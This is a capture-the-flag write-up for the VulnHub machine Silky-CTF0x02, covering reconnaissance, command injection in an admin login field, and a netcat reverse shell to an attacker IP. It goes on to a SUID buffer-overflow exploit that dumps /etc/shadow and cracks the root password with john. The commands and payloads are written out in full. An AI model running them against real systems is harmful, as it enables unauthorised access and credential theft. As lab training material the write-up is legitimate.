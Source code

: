 # Silky-CTF0x02 Writeup  
###### Author: Anthony Criscione (arc32x)  
###### (.ova available on VulnHub)


## Info Gathering

### nmap -p- -T4 -A -v silky
- **Open Ports**
  - 22: OpenSSH 7.4p1
  - 80: Apache httpd 2.4.25

### dirb http://silky
- **Found Directories**
  - http://silky/admin.php (CODE:200|SIZE:3702)
  - http://silky/index.html (CODE:200|SIZE:10701)
  - http://silky/server-status (CODE:403|SIZE:293)

### nikto -h http://silky
- **Found nothing of interest**

### nikto -h "http://silky/admin.php?username=&password="
- OSVDB-44056: /admin.php/sips/sipssys/users/a/admin/user: SIPS v0.2.2 allows user account info (including password) to be retrieved remotely.

### Manual SQLi
- **Found nothing of interest**

### Manual RCE
- **Found RCE in username field (login box or URL)**
- Ex: silky/admin.php?username=pwd; ls; id; uname -a; cat /etc/passwd&password=test123


## Exploitation

### Established nc reverse shell through RCE in username field
  - Attacker: nc -lvp 4444
  - Target: nc 192.168.56.102 4444 -e /bin/sh
  - Better terminal with python: python -c "import pty; pty.spawn('/bin/bash')"


## Privilege Escalation

### sudo -l
- **Found nothing of interest (password required)**

### find / -perm -u=s -type f 2>/dev/null
- **Found suspicious program w/ SUID bit set: /home/silky/cat_shadow**
  - Moved to /home/silky and attempted to run **./cat_shadow**; password required
  - Tried with test password to observe behavior:

    ```bash
    www-data@Silky-CTF0x02:/home/silky$ ./cat_shadow test123
    Trying to cat /etc/shadow
     Permisson denied! 
     0x00000000 != 0x496c5962
    www-data@Silky-CTF0x02:/home/silky$
    ```

### Program w/ SUID Bit Prints Shadow File
- Shadow file contains user passwords. Though a password is required to execute cat_shadow, **0x00000000 != 0x496c5962** suggests memory corruption (buffer overflow, etc.) might be possible to override the password and print the shadow file; while the SUID bit suggests we might be able to use the overflow to get a root shell directly through cat_shadow. Either should result in root access.

### Testing Buffer Overflow

```bash
www-data@Silky-CTF0x02:/home/silky$  
./cat_shadow AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Trying to cat /etc/shadow
 Permisson denied! 
 0x41414141 != 0x496c5962
www-data@Silky-CTF0x02:/home/silky$ ./cat_shadow $(python -c "print 'A'*100")
Trying to cat /etc/shadow
 Permisson denied! 
 0x41414141 != 0x496c5962
```

- **Found Oveflow**
  - Passing a large number of A's in as the password input results in **0x41414141**, which is AAAA (41 is A when converted from hex to ASCII, see ASCII table with *man ascii*).
  - We need to push **0x496c5962** to this location as indicated in the output inequality. To do so, we need to know how big the buffer is (ie. where the overflow occurs), and use this to pad our input string before pushing the expected value.
- **Finding Buffer Size**
  - We can use a random pattern of characters to find the desired offset using Metasploit's *msf-pattern_create* and *msf-pattern_offset*.
    - Attacker: msf-pattern_create -l 100
      - Pattern returned:  
        Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
    - Target:  
      ./cat_shadow Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
      - Target returned: 0x63413163 != 0x496c5962
    - Attacker: msf-pattern_offset -q 63413163
      - Offset returned: Exact match at offset 64
  - So we need to pad our input with 64 characters to overflow the buffer, and then push the expected value into the next location in memory (which is what's being compared to). This can easily be done with python.

### Exploiting Buffer Overflow
- We just need to execute cat_shadow with our exploit string provided as the input password. We know we need to pad the input with 64 A's to overflow the buffer. After that we just need to append the expected hex values. However, due to little-endianness, these values need to be pushed in reverse (maintaining bytes, or hex pairs). Python makes all of this simple:
  - Target: ./cat_shadow $(python -c "print 'A'*64 + '\\x62\\x59\\x6c\\x49'")
- Exploit successful! The target shadow file is printed to the terminal.

> Trying to read /etc/shadow  
> Succes  
> Printing...  
> root:$6$L69RL59x$ONQl06MP37LfjyFBGlQ5TYtdDqEZEe0yIZIuTHASQG/dgH3Te0fJII/Wtdbu0PA3D/RTxJURc.Ses60j0GFyF/:18012:0:99999:7:::  
> daemon:*:18012:0:99999:7:::  
> [redacted]  
> silky:$6$F0T5vQMg$BKnwGPZ17UHvqZLOVFVCUh6CrsZ5Eu8BLT1/uX3h44wtEoDt9qA2dYL04CMUXHw2Km9H.tttNiyaCHwQQ..2T0:18012:0:99999:7:::  
> mysql:!:18012:0:99999:7:::  
> sshd:*:18012:0:99999:7:::  

- We could obtain silky's password if we wanted, but may as well get root.

### Cracking root Password
- Copied shadow file contents to attacker machine for cracking (saved as *silky_shadow*). Also printed and copied contents of */etc/passwd* (saved as *silky_passwd*).
- **unshadow silky_passwd silky_shadow > silky_john**
- **john silky_john --wordlist=/usr/share/wordlists/rockyou.txt**
- After some time, the cracked password is returned:  
  **greygrey	(root)**


## Privilege Escalation
- Finally we can *su root* with password *greygrey*.


## Capturing the Flag
- *cd /root && ls*
- *cat flag.txt*
- Flag obtained: **d1f258a6ec26dffbbdec79f68890a5e8**
